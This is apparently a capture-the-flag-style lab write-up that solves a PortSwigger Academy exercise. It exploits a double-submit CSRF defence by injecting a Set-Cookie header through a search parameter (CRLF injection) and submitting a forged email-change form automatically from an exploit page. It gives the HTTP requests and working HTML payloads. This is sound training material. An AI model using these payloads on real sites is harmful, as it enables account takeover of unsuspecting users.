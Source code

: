 # Lab: CSRF where token is duplicated in cookie
This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

# Solution:

First thing that i discover is that a cookie is set when the login form is present. This cookie contains a csrf token. The same token can be seen in the HTML of the form.  ![](./img/Lab_6_First_cookie.png)


```http
HTTP/2 200 OK
Set-Cookie: csrf=diIzhkFfSjEbYY2dL3dxDgWq2Uphblgs; Secure; HttpOnly; SameSite=None
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3343
[...]
                   <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action="/login">
                            <input required type="hidden" name="csrf" value="diIzhkFfSjEbYY2dL3dxDgWq2Uphblgs">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
[...]
```


These values stay the same after a login. And even after changing the email. Let's send the POST request for changing the mail.  


By changing the cookie value and the token in the body we can change the email successfully with our own random token.  

```http
POST /my-account/change-email HTTP/2
Host: 0a26001e035d9a228010126f00140056.web-security-academy.net
Cookie: csrf=test123; session=enD7E21LyfkD1huVUN2XMuPlS6ZdBVg0
[...]
Referer: https://0a26001e035d9a228010126f00140056.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=new-test%40test.com&csrf=test123
```


![](./img/Lab_6_Changed_mail.png)


So to attack our victim we need to set the cookie and the csrf token in the form to the same value. But the token could be anything.

Now we need a way to set the cookie in the victims browser. And as the previous lab we have a search function that sets a cookie with the last searched term. So we can  probably use the and edit the same exploit.  
```html
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a960064042243f080832b8e0059007d.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evilner@pwned.com">
        <input required type=hidden name=csrf value="NbSDcezTKEkhFRmNrqpL5GcDq2GHrATd">
        <button class='button' type='submit'> Update email </button>
    </form>
    <img src="https://0a960064042243f080832b8e0059007d.web-security-academy.net/?search=123%3b%0d%0aSet-Cookie:%20csrfKey=lLto51zgFsJHz7q6LUtbpbI40kfAF7xd%3b%20SameSite=None" onerror="document.forms[0].submit()"
</body>
</html>
```

Becoming:  
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a26001e035d9a228010126f00140056.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evil-test@pwned.com">
        <input required type=hidden name=csrf value="test123">
        <button class='button' type='submit'> Update email </button>
    </form>
    <img src="https://0a26001e035d9a228010126f00140056.web-security-academy.net/?search=123%3b%0d%0aSet-Cookie:%20csrf=test123%3b%20SameSite=None" onerror="document.forms[0].submit()"
</body>
</html>
```


![](./img/Lab_6_Solved.png)